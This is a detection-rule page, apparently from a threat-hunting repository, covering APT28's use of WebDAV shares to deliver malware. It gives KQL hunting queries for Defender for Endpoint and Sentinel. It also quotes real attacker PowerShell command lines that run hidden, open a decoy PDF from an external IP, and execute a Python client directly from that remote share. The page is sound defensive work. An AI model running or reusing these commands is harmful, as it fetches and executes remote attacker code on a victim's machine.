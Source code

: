 # APT28 WebDav Folder File Collection

## Query Information


#### Description
Hunt for external connections initiated by PowerShell to collect files from the webdav folder. This is used to download malicious files.

Example commandlines:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hid -nop -c "[system.Diagnostics.Process]::Start('msedge','http://194.126.178.8/webdav/231130N581.pdf'); \\194.126.178.8@80\webdav\Python39\python.exe \\194.126.178.8@80\webdav\Python39\Client.py"
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hid -nop -c "[system.Diagnostics.Process]::Start('msedge','http://194.126.178.8/webdav/wody.pdf'); \\194.126.178.8@80\webdav\Python39\python.exe \\194.126.178.8@80\webdav\Python39\Client.py"
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hid -nop  -c "[system.Diagnostics.Process]::Start('msedge','http://194.126.178.8/webdav/StrategyUa.pdf'); \\194.126.178.8@80\webdav\Python39\python.exe 
```

#### Risk
APT28 has gotten access to one of your devices and executes malicious payloads.

#### References
- https://cert.gov.ua/article/6276894

## Defender For Endpoint
```KQL
let IPRegex = '[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}';
DeviceProcessEvents
| where tolower(ProcessCommandLine) has_all ("start", "edge", "webdav")
| extend RemoteIP = extract(IPRegex, 0, ProcessCommandLine)
| where isnotempty(RemoteIP)
| where not(ipv4_is_private(RemoteIP))
| project-reorder DeviceName, RemoteIP, ProcessCommandLine, AccountUpn
```
## Sentinel
```KQL
let IPRegex = '[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}';
DeviceProcessEvents
| where tolower(ProcessCommandLine) has_all ("start", "edge", "webdav")
| extend RemoteIP = extract(IPRegex, 0, ProcessCommandLine)
| where isnotempty(RemoteIP)
| where not(ipv4_is_private(RemoteIP))
| project-reorder DeviceName, RemoteIP, ProcessCommandLine, AccountUpn
```